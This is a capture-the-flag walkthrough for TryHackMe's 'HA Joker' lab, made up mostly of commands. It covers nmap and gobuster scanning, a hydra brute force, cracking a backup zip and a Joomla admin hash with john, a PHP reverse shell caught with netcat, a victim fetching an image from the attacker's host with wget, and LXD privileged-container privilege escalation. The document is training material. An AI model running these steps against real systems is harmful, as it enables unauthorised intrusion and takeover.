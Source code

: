 # HA Joker CTF

**Room Link:** [https://tryhackme.com/room/jokerctf](https://tryhackme.com/room/jokerctf)



## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (623).png" alt=""><figcaption></figcaption></figure>

## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (624).png" alt=""><figcaption></figcaption></figure>

## TCP/80 - HTTP

**Kali**

```
gobuster dir -u $VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (626).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (625).png" alt=""><figcaption></figcaption></figure>



## TCP/8080 - HTTP

**Kali**

```
hydra -l joker -P /usr/share/wordlists/rockyou.txt -s 8080 -f $VICTIM http-get /
```

<figure><img src="../../.gitbook/assets/image (627).png" alt=""><figcaption></figcaption></figure>



wasn't finding it but should have found a backup.zip

**Kali**

```
nikto -id joker:hannah -h $VICTIM:8080
```

<figure><img src="../../.gitbook/assets/image (629).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
zip2john backup.zip > secure_john.txt
john --wordlist=/usr/share/wordlists/rockyou.txt secure_john.txt 
unzip backup.zip
Password: hannah
```

<figure><img src="../../.gitbook/assets/image (630).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
cd db
cat joomladb.sql | grep admin
```

**Hash**

```
$2y$10$b43UqoH5UpXokj2y9e/8U.LD8T3jEQCuxG2oHzALoJaj9M5unOcbG
```

**Kali**

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

<figure><img src="../../.gitbook/assets/image (631).png" alt=""><figcaption></figcaption></figure>



**Browser**

```
Username: admin
Password: abcd1234
```

<figure><img src="../../.gitbook/assets/image (628).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (632).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
git clone https://github.com/pentestmonkey/php-reverse-shell.git
cp php-reverse-shell/php-reverse-shell.php .
subl php-reverse-shell.php
```



<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 1234
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



**Victim**

```
id
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
python2 -m SimpleHTTPServer 81
```



**Note:** The command lxd init was to resolve a storage pool area issue, it may not always be needed.

**Victim**

```
cd /tmp
wget http://$KALI:81/alpine-v3.13-x86_64-20210218_0139.tar.gz
lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
lxd init
lxc image list
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
id
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
